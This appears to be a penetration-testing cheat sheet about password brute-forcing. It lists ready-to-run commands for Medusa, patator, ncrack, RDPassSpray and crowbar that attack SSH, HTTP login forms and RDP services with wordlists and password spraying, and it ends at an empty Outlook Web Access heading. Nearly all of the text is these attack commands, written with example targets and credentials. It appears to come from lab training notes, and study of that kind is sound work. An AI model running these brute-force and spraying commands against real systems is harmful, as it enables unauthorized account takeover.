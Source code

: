 ## Rockstatic

Way bigger wordlist than rockyou.

## Medusa

{% code overflow="wrap" fullWidth="true" %}
```bash
medusa -d # Medusa options and modules
# HTTP bruteforce
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
# SSH bruteforce
medusa -h 192.168.0.0 -U users.txt -P users.txt -M ssh -e ns -f -g 5 -r 0
```
{% endcode %}

## patator

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">patator ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'
<strong>
</strong><strong>patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&#x26;pass=COMBO00&#x26;sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878
</strong></code></pre>

## ncrack - SSH bruteforce

```bash
ncrack 192.168.120.0 -U users.txt -P users.txt -p ssh -f -v
```

## RDP

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt # -d domain -T targetlist
# Crowbar - use only one thread (-n 1) otherwise it's not reliable
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
{% endcode %}

## Outlook web access (OWA) portal

Tools:
